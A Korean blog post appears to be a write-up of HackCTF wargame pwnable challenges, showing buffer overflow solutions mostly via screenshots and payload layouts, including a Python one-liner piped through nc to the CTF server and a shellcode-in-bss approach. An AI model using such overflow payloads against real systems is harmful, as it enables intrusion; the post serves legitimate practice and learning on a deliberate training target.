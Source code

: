 ```yaml
---
layout: post
title:  "HackCTF Pwnable - first line"
excerpt: "for All Clear HackCTF"
date:   2020-02-23
categories: [wargame]
comments: true
---
```


### 1. Basic_BOF #1

binary :



![img](https://k.kakaocdn.net/dn/Qmd27/btqCbUwEpAQ/uAs84B8ONS8Jd1bSLrMgVK/img.png)



main :



![img](https://k.kakaocdn.net/dn/deHnH7/btqCcAYMczl/ctcgj8WsHcWLvaAnscOCu1/img.png)



뭐 굳이 쉘코드를 넣을 필요도 없다. 그냥 v5변수 값이 -559038737이면 되는데 이게 0xDEADBEEF이다. 

payload :



![img](https://k.kakaocdn.net/dn/qDDSo/btqCbhyTomw/EZbGrjMkM9azK5HbJQp941/img.png)



### 2. Basic_BOF #2

binary :



![img](https://k.kakaocdn.net/dn/GwpYi/btqCaSzsjbw/WWGUvbCmAgjx6lRjRmLoB1/img.png)



 

main : 



![img](https://k.kakaocdn.net/dn/dIpOaN/btqCevvsn1n/oLXo7yUcHyI6JaAL66K911/img.png)



이번에도 딱히 뭐 없다. 그냥 v5변수에 sup함수를 넣는다. 그럼 여기서 128바이트를 더미로 채우고 0804849b를 ret로 넘겨주면 된다.

payload :

dummy(128) + p32(0x0804849b)

$(python -c 'print "A"*128 + "\x9b\x84\x04\x08"'; cat) | nc ctf.j0n9hyun.xyz 3001

### 3. Basic_FSB

binary :



![img](https://k.kakaocdn.net/dn/baYotp/btqCckaM97S/RTfbntEvGEmkFEqlcRdJ1K/img.png)



main :



![img](https://k.kakaocdn.net/dn/EuAcJ/btqCeu4n4eX/r1S4IRCEewUVDsznAkHxt1/img.png)



vuln :



![img](https://k.kakaocdn.net/dn/cG6XkO/btqCeva9EXE/IRiXjpvCANw7Nkbcgxi5j1/img.png)



이 함수의 snprintf와 밑에 &format에서 fsb취약점이 터진다. 

flag :



![img](https://k.kakaocdn.net/dn/ds5pn8/btqCd0CsBqI/5koJMr7OJrFztYAXlYK4O0/img.png)



자 . fsb문제다.  Partial RelRO니까 GOT overwrite가 가능할 것이다. 

근데 아직 못풀음 ㅎㅎ 

### 4. 내 버퍼가 흘러넘친다!!!

binary :



![img](https://k.kakaocdn.net/dn/eskYay/btqCcCI4yQW/aRlrsLZGiuk8LQwc15sufK/img.png)



main :



![img](https://k.kakaocdn.net/dn/rwwkC/btqCeuQQGds/LArvHfcRZx4rJq6MWvOg51/img.png)



매우 간단하다. read함수로 name값을 50을 받아오는데 여기서 취약점이 발생한다. 한가지  신경써야할 점은 name변수가 bss영역에 존재하기 때문에 이를 이용해서 해결하는 점이다. 

payload :

dummy(13) + shellcode(24) + dummy(13)



![img](https://k.kakaocdn.net/dn/umjbX/btqCd1g4akZ/kXPcwTFFv6qRTbVRqzpNWk/img.png)



해결 후 확인해보니 , 초기화 되지 않는 정적변수인 name에 쉘코드를 넣고 , input에서 dummy를 넘겨준 후 name의 주소를 전송하는 풀이도 많은 것 같다. 

